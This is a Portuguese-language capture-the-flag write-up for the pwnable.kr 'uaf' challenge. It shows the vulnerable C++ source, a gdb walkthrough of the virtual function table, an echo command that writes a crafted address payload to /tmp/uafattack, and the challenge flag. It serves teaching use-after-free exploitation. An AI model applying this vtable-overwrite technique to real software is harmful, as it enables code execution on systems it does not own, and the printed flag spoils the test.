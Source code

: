 # Duckware Team - uaf (pwnable)
###### Solved by @Antonio-alexandre

> This CTF is about pwn, use after free

## Desafio: uaf (Pwn, Use After Free)
#### Introdução

Neste desafio, precisaremos analisar e identificar vulnerabilidades em um código a fim de aplicar uma técnica chamada de `Use After Free`, para assim obtermos acesso a um `shell`.

- [Página do desafio](http://pwnable.kr/play.php)

#### Análise Inicial

A princípio, nos deparamos com a seguinte descrição: 

> Mamãe, o que é o bug Use After Free?

Além do seguinte código para conectar ao servidor:

`ssh uaf@pwnable.kr -p2222 (pw:guest)` 

#### Solução

Assim que conectamos ao servidor, nos deparamos com a seguinte tela:

[![Imagem13.png](https://i.postimg.cc/tJV9Jm3W/Imagem13.png)](https://postimg.cc/sGyk0m0g)

De começo, é sempre bom verificar os arquivos presentes na máquina. Ao executar o comando `ls`, nos deparamos com três arquivos:

`flag`  `uaf`  `uaf.cpp`

Antes de mais nada, iremos verificar o código usando o comando cat `uaf.cpp`. Podemos perceber que é um código em c++. Aqui está ele:

```
#include <fcntl.h>
#include <iostream> 
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
        virtual void give_shell(){
                system("/bin/sh");
        }
protected:
        int age;
        string name;
public:
        virtual void introduce(){
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
};

class Man: public Human{
public:
        Man(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
        Human* m = new Man("Jack", 25);
        Human* w = new Woman("Jill", 21);

        size_t len;
        char* data;
        unsigned int op;
        while(1){
                cout << "1. use\n2. after\n3. free\n";
                cin >> op;

                switch(op){
                        case 1:
                                m->introduce();
                                w->introduce();
                                break;
                        case 2:
                                len = atoi(argv[1]);
                                data = new char[len];
                                read(open(argv[2], O_RDONLY), data, len);
                                cout << "your data is allocated" << endl;
                                break;
                        case 3:
                                delete m;
                                delete w;
                                break;
                        default:
                                break;
                }
        }

        return 0;
}
```

Logo de cara, ao analisar a classe `Human`, podemos identificar o trecho que dá acesso ao shell para o usuário. Precisaremos então identificar uma maneira de acessar esse método.

Nosso primeiro passo é identificar o endereço de memória da função `main`. Para isso, utilizaremos o comando:

`objdump -d uaf | grep '<main>'`

Esse comando, nos retornou o seguinte endereço:

`0000000000400ec4 <main>:`

Então, basta executar o `gdb`, e inserir um `breakpoint` no endereço de memória concebido.

[![Imagem14.png](https://i.postimg.cc/h40kbnjv/Imagem14.png)](https://postimg.cc/14f7sLD1)

Com o nosso `breakpoint` setado, basta executar o código com o comando `run`. Feito isso, ativaremos o [disassembler](https://juniorinformaticacps.com.br/glossario/o-que-e-disassembler/):

Para isso, utilizaremos dois comandos:

```
(gdb) set disassembly-flavor intel
(gdb) layout asm
```

Ao executar esses dois comandos, nos deparamos com a seguinte tabela:

[![Imagem15.png](https://i.postimg.cc/vBtNz7Gk/Imagem15.png)](https://postimg.cc/G89K3y8x)

Analisando mais profundamente, podemos perceber duas coisas no seguinte trecho:

[![Imagem16.png](https://i.postimg.cc/xjgZNPxb/Imagem16.png)](https://postimg.cc/rz0jv5L8)

Nesse trecho, o `cmp` implementa o `caso 1` no código, e o `je` pula para o trecho do código que é responsável por chamar a função `introduce()`, e executar a função [VFT (Virtual Function Table)](https://www.learncpp.com/cpp-tutorial/the-virtual-table/)

[![Imagem17.png](https://i.postimg.cc/MGk3J3Tg/Imagem17.png)](https://postimg.cc/Hr29Q2bt)

A parte que mais nos importa é `add rax,0x8`, pois ela pega o primeiro valor da VFT em `rax` e incrementa 8 bytes para obter o endereço de `introduce()`. Então, se colocarmos um breakpoint aqui, obteremos o endereço de `rax`.

[![Imagem18.png](https://i.postimg.cc/cHkQ06h6/Imagem18.png)](https://postimg.cc/2bvqxkPf)

Basta então obter o nosso VFT:

[![Imagem19.png](https://i.postimg.cc/Fz23kq24/Imagem19.png)](https://postimg.cc/p5Jpg0WG)

Agora que temos o endereço do VFT, podemos criar o nosso [payload](https://blog.starti.com.br/payload-o-que-e/). Lembrando que precisaremos subtrair 8 bytes do endereço, e após isso inverter a posição deles, por conta de ser um código little endian. Para isso, executaremos o seguinte código:

`echo -e '\x68\x15\x40\x00\x00\x00\x00\x00' > /tmp/uafattack`

Após isso, basta executar o seguinte comando:

`./uaf 8 /tmp/uafattack`

Após isso, ele abrirá o seguinte terminal:

[![Imagem20.png](https://i.postimg.cc/sfBn1Rhb/Imagem20.png)](https://postimg.cc/mhs36JVS)

Após isso, precisaremos desalocar a memória com a opção 3, e utilizar uma técnica chamada de [Heap Spray](https://en.wikipedia.org/wiki/Heap_spraying). O que essa técnica faz é alocar a memória repetidas vezes com a esperança que caia em algum lugar detectável (no nosso caso, onde `m` costumava ser). Para isso, basta repetir os passos:

Ao executar esse passo a passo perfeitamente, basta executar o comando `cat flag`.

Assim então, temos acesso a `flag`:

>`yay_f1ag_aft3r_pwning`
 

